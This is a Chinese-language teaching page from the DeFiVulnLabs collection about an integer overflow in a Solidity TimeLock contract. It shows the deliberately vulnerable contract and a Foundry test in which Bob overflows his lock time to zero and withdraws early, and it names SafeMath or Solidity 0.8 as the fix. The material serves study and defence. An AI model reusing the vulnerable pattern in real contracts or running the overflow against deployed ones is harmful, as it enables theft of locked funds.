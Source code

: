 # 整数溢出
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  
**名称：** 整数溢出漏洞  
**描述：**  
TimeLock 合约在智能合约代码中存在一个漏洞，允许攻击者从 TimeLock 合约中提前提取其存款。  
这个漏洞是因为 increaseLockTime 函数中发生了溢出，该函数以一种导致锁定时间回绕为 0 的方式操作锁定时间，  
使得攻击者能够在实际等待期到期之前提取他们的资金  


**场景：**     
这个智能合约是为了充当时间保险库。  
用户可以将资金存入合约，但是至少要等1周才能取出。  
用户还可以在这1周锁仓时间的基础上延长锁仓时间。


1. Alice和Bob都有1个以太币的余额 
2. 部署TimeLock合约  
3. Alice和Bob都将1个以太币存入TimeLock，他们需要等待 1 周才能解锁以太币 
4. Bob在他的锁定时间上造成了溢出
5. Alice无法提取 1 个以太币，因为锁定时间尚未过期。
6. Bob 可以提取 1 个以太币，因为锁定时间溢出为 0


**发生什么了？**  
攻击导致了 TimeLock.lockTime 溢出，并能够在 1 周等待期之前提取。   

Import: Solidity < 0.8 且没有使用 SafeMath 

**解决方法：**  
为了解决溢出问题，可以使用SafeMath库或者使用版本高于0.8的Solidity  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Overflow.sol -vvvv  
```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录“Alice开始存钱"
        console.log("Alice deposit 1 Ether...");
        // 设置Alice为deposit()的调用者
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob开始存钱"
        console.log("Bob deposit 1 Ether...");
        // 设置Bob为msg.sender
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞：增加锁仓时间，使其变量lockTime溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为变量lockTime发生溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 将msg.sender恢复为合约实际调用者
        vm.stopPrank();

        // 将alice设置为msg.sende
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁仓尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁仓尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```  
**红色框：** TimeLock.lockTime发生溢出  

**紫色框：** 溢出已修复  

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
